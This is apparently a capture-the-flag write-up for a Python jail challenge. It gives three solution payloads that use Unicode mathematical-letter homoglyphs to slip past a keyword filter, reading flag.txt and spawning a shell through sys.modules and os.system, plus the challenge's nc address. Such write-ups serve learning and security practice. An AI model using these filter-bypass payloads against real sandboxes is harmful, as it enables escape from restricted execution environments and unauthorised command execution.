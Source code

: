 ## Solution

- ```python
  𝔭𝔯𝔦𝔫𝔱(*𝔬𝔭𝔢𝔫('flag.txt'))
  #print(*open('flag.txt'))
  ```
  
- ```python
  [*𝔰𝔶𝔰.𝔪𝔬𝔡𝔲𝔩𝔢𝔰.𝔳𝔞𝔩𝔲𝔢𝔰()][29].𝔰𝔶𝔰𝔱𝔢𝔪(𝔰𝔶𝔰.𝔢𝔵𝔢𝔠𝔲𝔱𝔞𝔟𝔩𝔢) 
  #[*sys.modules.value()][29].system(sys.executable)
  ```
  
- ```python
  𝕤𝕪𝕤.𝕞𝕠𝕕𝕦𝕝𝕖𝕤['os'].𝕤𝕪𝕤𝕥𝕖𝕞('sh')
  #sys.modules['os'].system('sh')
  ```
  

## Challenge

- ``nc 20.80.240.190 4449``